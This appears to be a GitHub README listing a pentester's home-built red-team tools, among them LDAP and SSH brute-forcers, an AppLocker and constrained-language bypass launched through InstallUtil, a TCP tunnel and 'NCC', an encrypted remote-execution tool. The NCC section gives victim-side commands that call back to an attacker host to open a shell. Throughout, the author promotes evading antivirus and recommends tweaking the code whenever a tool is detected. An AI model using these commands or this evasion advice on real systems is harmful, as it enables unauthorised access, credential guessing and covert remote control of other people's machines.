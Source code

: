 # Some custom tools for redteaming
I prefer to write my own tool for my own use because of the following reasons:
- improve programming skills
- understand how the tool works
- easily bypass AV
 
You can use the tools in pentest or redteam work. If the tool is detected by AV, don't worry, edit the code a bit and then build again. :)

## Developing...
* [ ] TShell - Basic shell like C2 Framework which can easily bypass AV and applocker
* [ ] DNS Tunnel - Get sensitive data through DNS

## List of my tools


### Ldap Bruteforce
---
[ldap_brute](https://github.com/namcuongq/security/raw/main/ldap_brute/ldapbrute) Small tool to help brute force ldap
```
ldapbrute -u <user> -p <password> -h <host>
ldapbrute -U <user file> -P <password file> -H <host file>
```
  
### Bypass-CLM
---

- This will build an executable which executes a Full Language Mode powershell session. This method will provide a full powershell session just like running powershell.exe, but not powershell.
- If AppControl is enabled, you can run it with InstallUtil.
- Download [bypass-clm](https://github.com/namcuongq/security/tree/main/bypass-clm) and open it with Visual Studio, then build it.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass-clm.exe"
```

### Dir_Server
---
[dir_server](https://github.com/namcuongq/security/tree/main/dir_server) Simple directory listing in http-server like python http-simple-server. You can use it for download file.
```
dir_server [dir] [listen address]
```

### Forward_Tcp
---
[forward_tcp](https://github.com/namcuongq/security/tree/main/forward_tcp) Simple way to create a tunnel from special port to another. Tool like socat but usage very easy.

```
forward_tcp [src] [dst]
```

### NCC
---
Simple Remote Code Execution Tool via http or https which is normally not blocked and to the destination server, effectively bypassing the restrictions on firewall. It works like netcat but only for RCE purposes. All transmitted data is encrypted to avoid detection. It can work in 2 modes normal and reverse:
- normal 
  - In kali(server)
  ```
  ncc -l -s <kali ip>:<port>
  ```
  - In victim
  ```
  ncc -s <kali ip>:<port> -e
  ```
- reverse
  - In kali 
  ```
  ncc -s <victim ip>:<port>
  ```
  - In victim(server)
  ```
  ncc -l -s <victim ip>:<port> -e
  ```

### SSH_Brute
---
[ssh_brute](https://github.com/namcuongq/security/tree/main/ssh_brute) Small tool to help brute force ssh
```
ssh_brute -u <user> -p <password> -h <host>
ssh_brute -U <user file> -P <password file> -H <host file>
```
  
